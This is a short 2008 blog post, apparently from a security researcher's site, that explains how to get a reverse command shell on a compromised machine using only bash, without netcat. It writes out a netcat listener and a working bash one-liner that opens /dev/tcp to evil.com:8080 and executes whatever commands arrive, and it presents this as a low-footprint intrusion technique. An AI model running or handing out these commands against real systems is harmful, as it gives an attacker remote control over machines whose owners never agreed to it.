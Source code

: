 ```yaml
---
title: Reverse Shell with Bash
author: pdp
date: Sat, 19 Apr 2008 11:03:39 GMT
template: post.jade
---
```


I am stuck at the Dubai International Airport and I have nothing else interesting to do. So, I though I might share a simple technique which will go into the [Agile Hacking](/blog/agile-hacking/) project. Here I will show you how to create a reverse command shell without using any 3rd-party tools such as the all mighty netcat.

When we compromise a machine we often need to provide ourselves with a user friendly access to the system. This is where command shells come into place. The typical shell consists of a generic network client, typically netcat, listening on a remote port which pipes output into something like bash or any other command shell. Another type of shell is the reverse shell which consists of a generic network client, again something like netcat, connecting to the attacker's machine and piping input to bash. Most of the time, the attacker will use netcat, because this tool can be easily found on most system or easily compiled from source if required.

Although netcat is very useful, and you may have to use it in most cases, here is a simple technique which emulates what netcat does but it relies on bash only. Let's see how.

In step one we start a listening service on our box. We can use netcat, or whatever you might have at hand.

	$ nc -l -p 8080 -vvv

On the target we have to perform some bash-fu. We will create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor.

	$ exec 5<>/dev/tcp/evil.com/8080
	$ cat <&5 | while read line; do $line 2>&5 >&5; done

There you go. Now everything we type in our local listening server will get executed on the target and the output of the commands will be piped back. Keep in mind that we don't use any 3rd-party tools on the target but its default shell. This technique comes handy in many situations and it leaves very small footprint on the targeted system.

